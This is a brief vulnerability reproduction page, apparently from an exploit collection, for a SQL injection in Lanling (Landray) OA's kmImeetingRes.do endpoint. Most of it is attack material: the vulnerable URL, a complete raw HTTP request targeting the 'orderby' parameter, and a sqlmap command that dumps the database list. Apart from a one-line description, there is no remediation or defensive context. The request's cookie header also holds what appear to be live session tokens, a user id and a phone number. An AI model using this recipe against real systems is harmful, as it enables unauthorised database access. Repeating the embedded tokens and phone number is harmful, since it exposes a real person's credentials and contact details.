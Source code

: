 # Lanling OA kmImeetingRes.do Backend SQL injection vulnerability CNVD-2021-01363

## Vulnerability Description

Shenzhen Lanling Software Co., Ltd. Digital OA (EKP) has a SQL injection vulnerability. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Lan Ling OA</span>

## Network surveying and mapping



## Vulnerability reappears

There is a URL injected by SQL, here is the official demo site demonstration vulnerability process

```plain
https://xxx.xxx.xxx.xxx/km/imeeting/km_imeeting_res/kmImeetingRes.do?contentType=json&method=listUse&orderby=1&ordertype=down&s_ajax=true
```

The parameter in which SQL injection exists is `ordeby`, and the data packet is as follows

```sql
GET /km/imeeting/km_imeeting_res/kmImeetingRes.do?contentType=json&method=listUse&orderby=1&ordertype=down&s_ajax=true HTTP/1.1
Host: 
Connection: close
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: UM_distinctid=1785f7392888e1-02ece8c7e9a996-5771031-1fa400-1785f73928943d; landray_danyuan=null; landray_guanjianci=null; landray_sorce=baidupinzhuanwy; landray_jihua=null; JSESSIONID=232B6933CF33B5422F9D2649739D48FE; Hm_lvt_223eecc93377a093d4111a2d7ea28f51=1616509114,1616566341,1616566350; Hm_lpvt_223eecc93377a093d4111a2d7ea28f51=1616566350; Hm_lvt_d14cb406f01f8101884d7cf81981d8bb=1616509114,1616566341,1616566350; Hm_lpvt_d14cb406f01f8101884d7cf81981d8bb=1616566507; Hm_lvt_95f4f43e7aa1fe68a51c44ae4eed925d=1616509872,1616509969,1616509973,1616566507; Hm_lpvt_95f4f43e7aa1fe68a51c44ae4eed925d=1616566507; Hm_lvt_22f1fea4412727d23e6a998a4b46f2ab=1616509872,1616509969,1616509973,1616566507; Hm_lpvt_22f1fea4412727d23e6a998a4b46f2ab=1616566507; fd_name=%E5%95%8A%E7%9A%84%E5%93%88; fd_id=1785f817dd0f5a4beaa482646cb9a2d8; nc_phone=15572002383; j_lang=zh-CN; LtpaToken=AAECAzYwNUFEOEZBNjA1QjgxQkFsdW9stJ5e1pcW1hgQi3cOa0iEyAhdZZs=; Hm_lvt_95cec2a2f107db33ad817ed8e4a3073b=1616510026,1616566523; Hm_lpvt_95cec2a2f107db33ad817ed8e4a3073b=1616566523; add_customer=0
```



Save as a file, use Sqlmap to run the injection

```plain
sqlmap -r sql.txt -p orderby --dbs
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/lanling-1.png)